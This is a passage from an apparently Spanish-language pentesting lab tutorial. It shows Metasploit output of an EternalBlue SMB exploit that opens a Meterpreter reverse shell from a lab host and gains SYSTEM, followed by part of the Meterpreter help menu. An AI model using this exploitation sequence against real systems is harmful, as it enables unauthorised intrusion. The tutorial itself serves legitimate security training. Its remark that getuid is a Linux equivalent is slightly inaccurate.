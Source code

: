 ```r
x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-14 11:25:32 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


meterpreter > whoami

[-] Unknown command: whoami.


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

El prompt no es uno de línea de comandos de Windows sino uno de `Meterpreter`. El comando `whoami`, típicamente usado para Windows, no funciona aquí. En su lugar, podemos usar el equivalente de Linux `getuid`. Explorar el menú de `help` nos da más información sobre lo que los payloads de Meterpreter son capaces de hacer.

### MSF - Meterpreter Commands

```r
meterpreter > help

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
    close                     Closes a channel
    disable_unicode_encoding  Disables encoding of Unicode strings
    enable_unicode_encoding   Enables encoding of Unicode strings
    exit                      Terminate the meterpreter session
    get_timeouts              Get the current session timeout values
    guid                      Get the session GUID
    help                      Help menu
    info                      Displays information about a Post module
    IRB                       Open an interactive Ruby shell on the current session
    load                      Load one or more meterpreter extensions
```
